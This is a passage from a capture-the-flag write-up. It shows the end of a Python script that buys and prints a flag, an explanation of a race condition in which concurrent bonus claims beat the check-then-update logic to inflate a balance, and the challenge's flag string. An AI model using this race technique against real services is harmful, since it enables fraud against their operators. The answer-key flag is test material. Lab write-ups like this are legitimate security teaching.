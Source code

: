 ```python
        if "UMCS{" in flag_resp.text:
            flag_match = re.search(r'UMCS\{[^}]+\}', flag_resp.text)
            if flag_match:
                print(f"FLAG FOUND: {flag_match.group(0)}")
            else:
                print("Flag format not detected, but here's response:")
                # Print part of the response to see the flag
                print(flag_resp.text[:500] + "...")
        else:
            print("Could not find flag in response")
    else:
        print(f"Need ${3000 - balance} more to buy the flag")
else:
    print("Could not determine balance")
```

--- 

The race condition works because:
- The server first checks if a user has already claimed the bonus
- Then separately updates the database to mark it as claimed
- When multiple requests hit simultaneously, several can pass the initial check before any mark the bonus as claimed
- Each successful request increases the user's balance by $1000

---
### ==2.5 Flag==
![](./assets/web-flag.png)

**Flag:** `UMCS{th3_s0lut10n_is_pr3tty_str41ghtf0rw4rd_too!}`

---
